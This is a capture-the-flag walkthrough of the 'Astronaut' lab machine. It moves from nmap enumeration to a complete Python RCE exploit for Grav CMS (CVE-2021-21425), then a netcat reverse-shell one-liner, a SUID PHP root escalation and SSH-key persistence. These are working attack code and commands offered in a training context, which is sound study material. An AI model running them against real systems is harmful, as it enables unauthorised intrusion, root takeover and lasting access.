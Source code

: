 # Astronaut
### Proving Grounds Practice
### Linux Machine
<br>
Beginning with a typical service and version scan with nmap, we find that only ports 22 (ssh) and 80 (http) are open. Additionally we are informed that there is a directory listing available, notably grav-admin.
<br>
#### Nmap Results
<br>

```nmap-output

$ nmap 192.168.228.12 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:05 EDT
Nmap scan report for 192.168.228.12
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)

80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
|-     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```
<br>
Enumerating the website, we in fact find that there is a content management system in use, Grav-CMS.
<br>

![image](https://github.com/user-attachments/assets/0d45e3e0-b7ae-4582-9fb7-573951440855)
<br>

![image](https://github.com/user-attachments/assets/cc0904c2-185e-4a2b-a47d-6564ca5e889b)
<br>
A quick search for related exploits turns up an interesting find. 
<br>

#### GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)

```
https://github.com/CsEnox/CVE-2021-21425
```
<br>
#### Exploit

```python

#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from time import sleep
import urllib.parse
import argparse

parser = argparse.ArgumentParser(description='Grav Admin 1.7.10 RCE')
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://grav.local)', required=True)
args = parser.parse_args()

url = args.t
cmd = args.c
cmd = urllib.parse.quote(cmd)

session = requests.Session()

# Getting Nonce
r = session.get(url+'/admin')
soup = BeautifulSoup(r.text, features="lxml")
a = str(soup.findAll('input')[3])
nonce = a[47:79]

# Creating File
print("[*] Creating File")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/usr/bin/echo&data[custom_jobs][vwlya][args]={cmd}&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=/tmp/shell.sh&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for file creation, wait one minute")
	sleep(60)

# Running File
print("[*] Running file")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/bin/bash&data[custom_jobs][vwlya][args]=/tmp/shell.sh&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for command, wait one minute")
	sleep(60)

print("Exploit completed")
```
<br>
Setting our listener to port 4444. Then sending the exploit command.
<br>

![image](https://github.com/user-attachments/assets/ada695c3-222f-427f-961f-c7dee3ccdf58)
<br>
#### Command Line

```
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.21.153 4444 >/tmp/f' -t http://192.168.207.12/grav-admin
```
<br>
We get a reverse shell, as www-data.
<br>

![image](https://github.com/user-attachments/assets/14e3bca3-8656-4e09-b26a-48b350817cb6)
<br>

#### Stabilize Shell

```
export TERM=xterm;python3 -c 'import pty;pty.spawn("/bin/bash")'
```
<br>

![image](https://github.com/user-attachments/assets/bb1e2a10-7faf-40fb-abd8-7ddfbf7a2f10)
<br>
We cannot check for sudo rights on www-data because we don't have the password. But we can search for binaries that may have the SUID bit set.
<br>
#### SUID Hunting

```
find / -perm -u=s 2>/dev/null
```
<br>

![image](https://github.com/user-attachments/assets/71cc304e-6c4b-4679-88a9-609b05ad1bba)
<br>
Checking out the findings on GTFOBins php seems to be a great candidate for Privilege Escalation.
<br>
#### Escalate Privileges

```shell
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
<br>

![image](https://github.com/user-attachments/assets/4bcce87e-17d0-4de1-9c29-1a4e3eed8e1a)
<br>
Now that we have root access, we can submit the proof of pwnage. Additionally we can have persistence on the machine by adding our public key to the authorized_keys file.
<br>
#### Persistence via SSH

```
cd /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTNoNoNoB5vEuE2CVK/0/xPnhxWfBWGj" >> authorized_keys
```
